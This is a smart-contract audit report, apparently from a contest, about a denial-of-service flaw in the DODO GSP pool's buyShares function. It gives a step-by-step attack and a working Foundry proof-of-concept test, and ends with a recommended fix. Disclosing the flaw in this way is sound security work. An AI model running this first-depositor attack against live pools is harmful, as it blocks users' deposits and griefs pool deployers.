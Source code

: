 Festive Lemonade Guppy

medium

# attacker can DOS empty DSP pools (blocking protocol core functionality) and grief the deployer

## Summary
due to a bug in `GSPFunding.buyShares()` first depositor can DOS the pool and others won't be able to supply tokens and mint shares.  with this issue, attacker can Grief pool deployers and also DOS the core functionality of the protocol(pool creation and liquidity supply)

## Vulnerability Detail
the issue is that code has this checks for calculating [shares](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L56-L79):
```javascript
        if (totalSupply == 0) {
            // case 1. initial supply
             shares = ..........
        } else if (baseReserve > 0 && quoteReserve > 0) {
            // case 2. normal case
            shares = ................
        }
         _mint(to, shares);
```
so when `totalSupply>0` then both `baseReserve` and `quoteReserve` most be bigger than 0 so code would calculate shares correctly. but first depositor can call `totalSupply()` with `quoteRserve==0` and so the "else if" conditions will be false when other calls the `buyShares()` the share amount will be 0 and code would revert with "MINT_AMOUNT_NOT_ENOUGH" error.

This is step by step POC:
1. attacker (as first depositor) will send 10^5 base token and 0 quote token to pool can call buyShares(), this will result in minting 10^5 share for attacker.
2. now pool will have totalSupply>0 and quoteReserve == 0
3. now if anyone calls buyShares() code won't calculate the share amount in the buyShare() function because "if" and "else if" conditions will be False and as result share amount will be 0.
4. in function _mint() because of the check  require(value > 1000, "MINT_AMOUNT_NOT_ENOUGH"); code would revert.
5.so as result no one be able to use the pool.

I edited one of the project test files and created a coded POC for the issue.(run with `-vvvv` to see the revert error)
```javascript
// SPDX-License-Identifier: MIT

pragma solidity 0.8.16;
pragma abicoder v2;

import {Test, console} from "forge-std/Test.sol";
import {DeployGSP} from "../scripts/DeployGSP.s.sol";
import {GSP} from "../contracts/GasSavingPool/impl/GSP.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "forge-std/console.sol";

contract TestGSPFunding is Test {
    GSP gsp;

    address USER = vm.addr(1);
    address OTHER = vm.addr(2);
    address constant USDC_WHALE = 0x51eDF02152EBfb338e03E30d65C15fBf06cc9ECC;
    address constant DAI_WHALE = 0x25B313158Ce11080524DcA0fD01141EeD5f94b81;
    address constant USDC = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address constant DAI = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
    IERC20 private usdc = IERC20(USDC);
    IERC20 private dai = IERC20(DAI);

    // Test Params
    uint256 constant BASE_RESERVE = 1e5; // 10 DAI
    uint256 constant QUOTE_RESERVE = 0; // 0 amount
    uint256 constant BASE_INPUT = 1e18; // 1 DAI
    uint256 constant QUOTE_INPUT = 2e6; // 2 USDC


    function setUp() public {
        // Deploy and Init 
        DeployGSP deployGSP = new DeployGSP();
        gsp = deployGSP.run();

        // transfer some tokens to USER
        vm.startPrank(DAI_WHALE);
        dai.transfer(USER, BASE_RESERVE + BASE_INPUT);
        vm.stopPrank();
        vm.startPrank(USDC_WHALE);
        usdc.transfer(USER, QUOTE_RESERVE + QUOTE_INPUT);
        vm.stopPrank();
    }

    function test_buySharesForTwice() public {
        vm.startPrank(USER);
        

        // mint share while quote == 0
        dai.transfer(address(gsp), BASE_RESERVE);
        usdc.transfer(address(gsp), QUOTE_RESERVE); // zero amount
        gsp.buyShares(USER);
        
        
        // now calling `buyShares()` will revert always
        dai.transfer(address(gsp), BASE_INPUT);
        usdc.transfer(address(gsp), QUOTE_INPUT);
        gsp.buyShares(USER); // will result in revert
        vm.stopPrank();
    }
}
```

## Impact
attacker can block pool creation and usage by back-running calls to `GSPFactory.createDODOStablePool()` and perform the attack for newly deployed pools. it would grief the pool deployer and also DOS the protocol core functionality(users creating and using pools permissionless).

also attack is possible for the pools that their liquidity become 0 in the future(the requirement for attack is 0 share amount)

because for one combination of the parameters there could be on pool by DOSing that pool, the pool creator can't create that same pool(same parameters) again.


## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L56-L79
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPVault.sol#L295

## Tool used
Manual Review

## Recommendation
code should make sure first depositor won't send 0 quote token in `buyShares()` function:
```javascript
    if (totalSupply == 0) {
            // add the below line
            require(quoteBalance > 0, "ZERO_AMOUNT");
```